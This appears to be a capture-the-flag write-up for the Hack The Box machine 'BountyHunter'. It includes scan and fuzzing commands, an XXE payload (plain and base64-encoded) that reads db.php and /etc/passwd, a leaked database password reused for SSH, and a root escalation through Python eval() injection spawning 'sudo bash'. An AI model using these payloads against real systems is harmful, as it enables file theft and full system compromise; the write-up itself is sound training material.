 # nmap
````bash
# Nmap 7.91 scan initiated Mon Aug  9 00:42:12 2021 as: nmap -p- -sC -sV --open -oA nmap/10.10.11.100-BountyHunter 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.23s latency).
Not shown: 61080 closed ports, 4453 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  9 00:43:55 2021 -- 1 IP address (1 host up) scanned in 103.32 seconds
````
- the only path is to enumerate the web

# web

## fuzzing for files

````bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://bountyhunter.htb/FUZZ -fs 281
````

![](BountyHunter.HTB-06.png)
- These notes are made after the fact.
- This means the above fuzzing command is one I arrived at to give the prettiest outlook for the screenshot.
- The results yield two files of interest; <span class="myTurquoise"><b>portal.php</b></span> and <span class="myTangerine"><b>db.php</b></span>

<hr>

## link to <span class="myTurquoise">portal.php</span>

![](BountyHunter.HTB-01.png)
- on the landing page, there is a link to portal.php

<hr>

## link to log_submit.php
![](BountyHunter.HTB-02.png)
- on portal.php there is a link to log_submit.php

<hr>

## log_submit.php
![](BountyHunter.HTB-03.png)
- log_submit.php has a form that merely takes form input and merely throws it back on the screen using javascript DOM.

![](BountyHunter.HTB-04.png)

- One can see on Burp how log_submit.php submitting form input to tracker_diRbPr00f314.php
- Form data seems base64 formatted.

![](BountyHunter.HTB-05.png)

````xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>qdadaTitle</title>
		<cwe>qdadaCWE</cwe>
		<cvss>qdadaCVSS Score</cvss>
		<reward>$29.99</reward>
		</bugreport>
````
- one can see how the base64 formatted data is actually and XML data exchange.
- this brings to mind an XXE vulnerability


# user

## xxe vulnerability

````xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>qdadaTitle &xxe;</title>
		<cwe>qdadaCWE</cwe>
		<cvss>qdadaCVSS Score</cvss>
		<reward>$29.99</reward>
		</bugreport>
````
- recall that fuzzing had discovered <span class="myTurquoise"><b>portal.php</b></span> and <span class="myTangerine"><b>db.php</b></span>
- <span class="myTurquoise"><b>portal.php</b></span> had yielded an xml formatted method of data exchange.
- now, that xml is modified to test the vulnerability by reaching for <span class="myTangerine"><b>db.php</b></span> discovered through fuzzing earlier.

## encoding the vulnerability

![](src/BountyHunter.HTB-07.gif)

````bash
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJlcGxhY2UgWzwhRU5USVRZIHh4ZSBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9ZGIucGhwIj4gXT4KICAgICAgICA8YnVncmVwb3J0PgogICAgICAgIDx0aXRsZT5xZGFkYVRpdGxlICZ4eGU7PC90aXRsZT4KICAgICAgICA8Y3dlPnFkYWRhQ1dFPC9jd2U+CiAgICAgICAgPGN2c3M+cWRhZGFDVlNTIFNjb3JlPC9jdnNzPgogICAgICAgIDxyZXdhcmQ+JDI5Ljk5PC9yZXdhcmQ+CiAgICAgICAgPC9idWdyZXBvcnQ+Cgo=
````
- the xxe is encoded into a base64 payload


![](BountyHunter.HTB-08.png)

- the urlencode base64 payload replaces the value for the data parameter
- what returns is the base64 encoded content for <span class="myTangerine"><b>db.php</b></span>

![](BountyHunter.HTB-08.1.png)
````php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
````



![](BountyHunter.HTB-09.png)
- using a similar method, /etc/passwd is fetched to arrive at possible usernames for the discovered credentials
- two accounts have access to bash; <span class="myTurquoise"><b>root</b></span> and <span class="myTangerine"><b>development</b></span>.



![](BountyHunter.HTB-10.png)
- credentials <span class="myYellow"><b>development</b></span>  :  <span class="myYellow"><b>m19RoAU0hP41A1sTsq6K</b></span> are able to logon


# root
## ```sudo -l```


![](BountyHunter.HTB-11.png)

````bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
````

- we begin with the obligatory ```sudo -l``` for linux boxes on Hack The Box
- a script  ```/opt/skytrain_inc/ticketValidator.py``` can be run as root

## ```ticketValidator.py```

![](BountyHunter.HTB-12.png)
- ticket is any filename that ends with .md extension
- within the .md file there are lines that must appear in a specific format
- lines 16 to 25 say the .md file should read as follows

````bash
# Skytrain Inc
## Ticket to 
__Ticket Code:__
````


![](BountyHunter.HTB-13.png)
- line 30 - 35 define what the final line should look like. It is also the line where we inject the payload to get root.
- line 32 says the code we are looking for is the code that remains when<br>
[+] first the string ``**``is removed. 
[+] We are left with a <b>code</b> that has plus in it because the split function uses the ``+`` as a separator between two things
- we know that <b>code</b> must be a number because a divisor is applied to it to get a remainder of 4; according to line 33
- The vulnerable ``eval()`` code appears on line 34<br>[+] when the replace function is applied, all that is left is the ticket code and a plus sign
[+] all that remains is the injection of python code so that the code being executed is ``eval(109+__import__('os').system('sudo bash'))``

![](BountyHunter.HTB-14.gif)